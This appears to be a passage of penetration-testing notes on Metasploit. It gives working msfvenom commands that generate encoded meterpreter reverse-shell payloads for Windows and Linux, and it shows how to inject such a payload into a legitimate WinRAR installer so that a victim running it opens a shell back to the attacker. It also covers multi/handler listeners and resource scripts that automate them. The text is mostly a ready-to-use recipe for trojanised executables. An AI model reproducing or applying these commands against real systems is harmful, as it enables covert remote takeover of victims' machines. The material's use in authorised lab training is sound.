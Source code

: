 ```bash
# windows - 10 encoding iterations - shikata_ga_nai encoder
kali@kali> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.5 lport=1234 -i 10 -e x86/shikata_ga_nai -f exe -o encodedx86.exe
kali@kali> msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=10.10.10.5 lport=1234 -e x86/shikata_ga_nai -i 10 -f elf -o encodedx86
```

#### Windows portable executable payload injection

A great Windows tool is **Winrar** and you can inject shellcode into this executable. First download the executable configuration file https://www.win-rar.com/.

```bash
kali@kali> msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.81.62 lport=1234 -e x86/shikata_ga_nai -i 10 -f exe -x Downloads/winrar-x32-622.exe -o winrar.exe

kali@kali> msfconsole
msf6> use multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> set lhost 192.168.81.62
msf6> set lport 1234
msf6> run

meterpreter> run post/windows/manage/migrate  # post-exploitation module
```

Then you can execute the `winrar.exe` on the Windows system and you gain meterpreter on the kali attacker.

### Resource scripts MSF automation

* MSF resource scripts are a feature that allow you to automate repetitive tasks and commands.
* They operate similarly to batch scripts, whereby, you can specify a set of MSFconsole commands that you want to execute sequentially.
* You can load the script with MSFconsole and automate the execution of the commands you specified in the resource script.
* We can use resource scripts to automate various tasks like setting up multi handlers as well as loading and executing payloads.

**Script 1**

```bash
kali@kali> ls -la /usr/share/metasploit-framework/scripts/resources/
kali@kali> vim handler.rc
```

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.10.5
set lport 1234
run
```

```bash
kali@kali> msfconsole -r handler.rc  # not in msfconsole yet
msf6> resource handler.rc            # already using msfconsole
msf6> makerc saved_commands.rc       # save previous commands
```
